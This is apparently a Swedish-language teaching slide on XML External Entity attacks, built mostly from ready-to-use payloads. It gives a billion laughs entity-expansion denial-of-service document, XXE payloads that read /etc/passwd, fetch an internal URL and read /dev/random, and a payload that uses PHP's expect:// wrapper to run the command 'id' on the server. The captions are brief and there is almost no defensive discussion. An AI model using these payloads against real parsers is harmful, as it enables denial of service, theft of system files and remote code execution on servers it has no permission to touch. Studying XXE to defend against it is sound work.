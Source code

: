 DoS med [Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack):

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ELEMENT lolz (#PCDATA)>
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

---

Några exempel på läsning av känslig information:

```xml
<?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "https://192.168.1.1/private" >]>
<foo>&xxe;</foo>

<?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///dev/random" >]>
<foo>&xxe;</foo>
```

---

<div style="page-break-after: always;"></div>

Remote code execution på en server med PHP där expect-modulen är installerad.

```xml
<!-- If fortune is on our side,
and the PHP "expect" module is loaded, we can get RCE.
Let’s modify the payload -->

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
 <user>&xxe;</user>
 <pass>mypass</pass>
</creds>
```
